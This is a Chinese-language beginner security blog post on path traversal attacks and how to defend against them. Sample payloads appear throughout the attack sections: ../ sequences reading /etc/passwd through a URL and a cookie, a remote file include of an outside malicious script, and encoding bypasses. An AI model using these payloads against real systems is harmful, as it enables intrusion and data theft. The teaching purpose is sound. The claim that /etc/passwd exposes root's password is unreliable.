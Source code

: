 ```yaml
---
title: 零基礎資安系列（五）-路徑遍歷（Path Traversal）
author: jo
date: 2021-05-30
tags: [Security,ZeroBased,Path Traversal]
layout: zh-cn/layouts/post.njk
image: /img/posts/jo/zerobased-path-traversal/cover.jpeg
---
```

<!-- summary -->
## 前言

> 路徑遍歷（Path Traversal）就像想像網站是一個博物館，裡面有許多房間，其中有些房間是 Staff Only 而且門上了鎖不讓訪客進入，但有趣的是博物館裡的每一個房間都有通風口，只要知道房間位置，就可以透過其他房間的通風口前往 Staff Only 的房間獲得所有你想要的資料。
<!-- summary -->

## 釋例

今天想和大家聊聊在網站安全上攻擊者容易執行但卻常被開發者忽略的路徑遍歷（Path Traversal）攻擊，談談關於路徑遍歷在網站安全上可能造成的風險以及如何預防。

通常路徑遍歷也被稱目錄遍歷（Directory Traversal），但他有個更具體而且蠻可愛的名字叫做點點斜線攻擊（Dot dot slash attack），那為什麼會叫這個名字呢？

舉個實際的例子，Linux 中，目錄的顯示是 / Users / hello / Desktop / file，如果使用者輸入 cd ../ 指令時，當前的目錄就會回到上一層，那這會有什麼問題？當這個指令是任一使用者測試在網站 URL 上輸入 ../ 都可以成功執行回到網站目錄上一層的時候問題就大條了，這表示告訴攻擊者，我有路徑遍歷的風險，你可以開始嘗試囉！

## 常見的路徑遍歷攻擊手法

以下拿幾個路徑遍歷的攻擊常見的範例來說明：

假設網址呈現的方式為：

```txt
https://www.example.com/get-files?file=report.pdf
```

而攻擊者在真正的執行路徑遍歷攻擊以前，常會使用絕對路徑遍歷的手法探測目標網站的網站架構，例如說：
```txt
https://www.example.com/get-files?file=/etc/passwd
```
，嘗試以常用的系統絕對路徑試探是否有回應當，當伺服器回應有關網站應用程序中的錯誤的信息時，攻擊者可以更容易猜測正確的位置（例如顯示原始碼的文件路徑）。

### 1.攻擊者嘗試訪問目錄外的路徑：

```txt
https://www.example.com/../../../../some dir/some file
```
攻擊者藉由多次的 ../ 來超脫當前的目錄，訪問不在目錄下的資料。

### 2.攻擊者嘗試讀取目錄中的系統檔案

```txt
https://www.example.com/get-files?file=/etc/passwd
```

攻擊者藉由 /etc/passwd 來嘗試直接讀取系統檔案，如果真的被攻擊者讀取到 /etc/passwd 檔的話，攻擊者很有可能藉此解讀 root user 的密碼，另外，值得一提的是，如果網站架在 Windows 的系統中的話，攻擊者只能訪問Web根目錄所在的磁碟分區，但如果是在 Linux 系統中的話，攻擊者則可以訪問整個磁碟。

### 3.攻擊者嘗試使網站引用外部文件或腳本

```txt
https://www.example.com/get-files?file=http://other-site.com/malicius-code.php
```

攻擊者藉由嘗試將其他網站中的文件包含到當前網站的目錄，讓系統去引用攻擊者的惡意外部文件或腳本，進而達到提權或是竊取機敏資料的目的。

### 4.攻擊者以竄改 HTTP 的請求藉此對伺服器發起攻擊

```txt
GET /vulnerable.php HTTP/1.0   
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
```

與上列不同的是攻擊者不是經由竄改 URL 而達成路徑遍歷的攻擊，而是藉由竄改 HTTP 的請求以多次的../來超脫當前網站的目錄，使伺服器回應傳送 etc/passwd 解讀 root user 的密碼。

## 變形的路徑遍歷攻擊

在看完上述所說明的攻擊之後，你可能想說那我只要擋掉使用者在我的 URL 以及 HTTP 請求的輸入進行驗證及限制，不允許../的出現，那麼針對路徑遍歷的攻擊也就無用武之地了吧？

一個好消息和一個壞消息告訴你，好消息是你的觀念正確，對URL 以及 HTTP 請求的輸入進行驗證及限制的確是避免路徑遍歷攻擊的應對策略之一，但壞消息是../是有變形的，而且還有很多種變形，其中最常見的變形就是在**零基礎資安系列(二)-認識 XSS(Cross-Site Scripting)** 中和大家提過的HTML Encoder 會將 `%2e%2e%2f` 解析為 ../ 繞過針對 ../ 的檢查，除此之外還有 UTF-8 編碼 `%c1%1c` 會被解析為 / ，以及若是更進階一點的話攻擊者還可能使用 xor 概念，`%d0^%ff = /` 的編碼方式，繞過限制的字元，如果大家對攻擊者可能使用的進階 injection 有興趣，我之後會再寫一篇文章和大家說明，在這裡主要想告訴大家的是限制字元的輸入是個好的應對策略，但前提是將所有攻擊者可能的攻擊方式全部寫進規則中，否則仍然會使攻擊者有機可趁。

## 如何防禦

上面說了這麼多攻擊者可能的攻擊方式，又表示有那麼多變形的路徑遍歷攻擊，那難道我們對攻擊者就無計可施了嗎？

當然不是！依據我的經驗，針對路徑遍歷攻擊的防禦可以從三個方面來看

**1.輸入驗證**

針對路徑遍歷攻擊最直覺的防禦就是驗證及限制所有在 URL 以及 HTTP 請求，不允許輸入 ../ 以及其他變形的輸入，這方面的防禦強度會在於網站對於輸入驗證的規則完善度而決定。

**2.權限控管**

在開發和部署網頁應用程式的時候盡可能的以最小的權限執行，盡可能的刪除所有不常使用或權限過大的使用者並取消 Guest 角色，建立完整的 ACL（Access Control List） ，且確保文件的可讀可寫權限也的確受到控管（例如Linux 系統盡可能不要有權限 777 的文件，這會讓這份文件全世界可讀可寫），這樣的話即使攻擊者成功的查看網頁目錄，也會因為權限問題而導致無法存取文件，最多只能得知網站目錄架構及檔名。

**3.資料處理**

之所以把資料處裡放在最後一步是因為我認為資料處理是面對攻擊者的最後一道防線，即使攻擊者可以繞過輸入驗證，成功獲得瀏覽目錄的權限，但如果目錄中沒有隱密資料或是將重要資料另外備份在其他的伺服器，例如密碼檔、已經沒有被引用的舊文件、網站備份的資料、Log 紀錄、系統版本紀錄 等，攻擊者在沒有獲得任何有效資料的情況下也只能繼續嘗試其他的攻擊路徑。

## 結論

雖然資料處理是三種防禦中面對攻擊者的最後一道防線，但我認為最重要的防禦還是針對路徑遍歷攻擊的輸入驗證，原因是因為對攻擊者來說，一但發現網站的輸入驗證規則設置周全或是一般常見的手法都沒辦法獲得任何有效的資料時，攻擊者通常會選擇另尋目標，所以我建議的方式會是建立一個針對路徑遍歷攻擊包含 ../ 及 HTML Encoder 編碼規則的輸入驗證會是針對路徑遍歷攻擊首先該做的事，接著才是刪除所有不常使用的使用者權限並且不允許遠端操作，將當前網站目錄中非必要存在的重要檔案另外備份並在當下的目錄中刪除，以上兩件事情可以依據公司的情況做調整，例如帳號權限複雜先不動或重要的檔案位置混亂不好歸納所以先處理權限 等，以公司承擔成本較低的方式自行取捨。

當以上三種防禦都進行之後，即使攻擊者願意花時間嘗試除了一般常見規則的路徑遍歷攻擊外再特別設計攻擊，並且在進入目錄後連一般使用者權限都沒有的情況下嘗試提權，再提權成功後，看著沒有高重要性資料的目錄同常也會感到挫折。

## 延伸閱讀

### 零基礎資安系列（二）- 認識 XSS(Cross-Site Scripting)

> [認識 XSS（Cross-Site Scripting）](https://tech-blog.cymetrics.io/jo/zerobased-cross-site-scripting)

#### 零基礎資安系列（四）- 認識注入攻擊（ Injection Attack）

> [認識注入攻擊（ Injection Attack）](https://tech-blog.cymetrics.io/jo/zerobased-injectionattack)

## 參考資料

### OWASP Path Traversal

> [https://owasp.org/www-community/attacks/Path\_Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

### Wikipedia Path Traversal

> [https://en.wikipedia.org/wiki/Directory\_traversal\_attack](https://en.wikipedia.org/wiki/Directory_traversal_attack)
